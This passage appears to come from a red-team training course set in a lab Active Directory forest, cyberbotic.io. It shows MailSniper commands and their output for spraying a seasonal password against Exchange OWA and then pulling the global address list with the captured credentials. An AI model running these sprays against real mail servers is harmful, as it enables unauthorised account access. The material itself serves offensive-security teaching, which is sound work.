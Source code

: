 This requires a little bit of explaining. **cyberbotic.io** is the root of the Active Directory forest, who's NetBIOS name is **CYBER**. But cyberbotic.io has a child domain called **dev.cyberbotic.io**, who's NetBIOS name is **DEV**. From this, we can ascertain that iyates is a user in the parent domain; whilst bfarmer, jking and jadams exist in the child domain.

However, without just guessing at domain names, we don't have a reliable way of knowing DEV ever existed. You may be able to find some clues from your OSINT such as leaked internal domain names.

MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

```
PS C:\> Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
[*] SUCCESS! User:CYBER\iyates Password:Summer2021
[*] A total of 1 credentials were obtained.
```

&#x20;

**OPSEC Alert**

In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users. Too many attempts in a short space of time is not only loud, but may also lock accounts out.

We can do further actions using MailSniper with valid credentials, such as downloading the global address list.

```
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```

If there are names here that we didn't find during OSINT, we can go back and do another round of spraying against them.
